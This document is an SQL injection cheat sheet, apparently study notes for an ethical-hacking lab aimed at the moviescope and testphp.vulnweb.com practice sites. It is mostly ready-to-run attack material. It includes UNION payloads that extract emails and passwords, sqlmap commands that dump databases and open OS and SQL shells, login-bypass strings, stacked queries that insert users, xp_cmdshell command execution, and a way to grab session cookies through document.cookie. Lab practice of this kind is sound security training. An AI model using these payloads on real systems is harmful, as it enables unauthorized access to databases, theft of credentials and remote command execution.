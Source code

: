 - 1' UNION SELECT 1,column\_name,id,emails,passwords,6,7 from information\_schema.columns (fetch out all senstive info at onces)
- ----------------------------
- SQLMAP:
- SQLMAP Extract DBS
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" -- dbs(gives database name)
- Extract Tables
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope(database name) --tables(gives table name)
- Extract Columns
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User\_Login(tables) --columns(gives column)
- Fetch Information from the Column:
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User\_Login -C passwords(info in the col)
- Dump Data
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User\_Login --dump()
- OS Shell to execute commands
- sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -- os-shell
- Login bypass
- blah' or 1=1 --
- Insert data into DB from login
- blah';insert into login values ('john','apple123');
- Create database from login
- blah';create database mydatabase;
- Execute cmd from login
- blah';exec master..xp\_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
- ----------------------------
- URL = http://testphp.vulnweb.com/artists.php?artist=1
- Find DBs = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch
- Result is DB name acuart
- Find Tables = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -- table --batch
- Result is table name users
- Find columns = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch
- Dump table = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart - T users --dump --batch
- Dump the DB = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch
- ----------------------------
- Using cookies
- sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -- cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 -- risk=3 --dbs --batch
- SQL Injection in login page enter blah' or 1=1-- as username and click login without entering the password
- OS Shell = sqlmap -u 'url' --dbms=mysql --os-shell
- SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
- ----------------------------
- Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
- Login a website
- Inspect element
- Dev tools-&gt;Console: document.cookie
- sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" –dbs
- -u: Specify the target URL
- --cookie: Specify the HTTP cookie header value
- --dbs: Enumerate DBMS databases
- Get a list of databases
- Select a database to extract its tables
- sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –tables
- -D: Specify the DBMS database to enumerate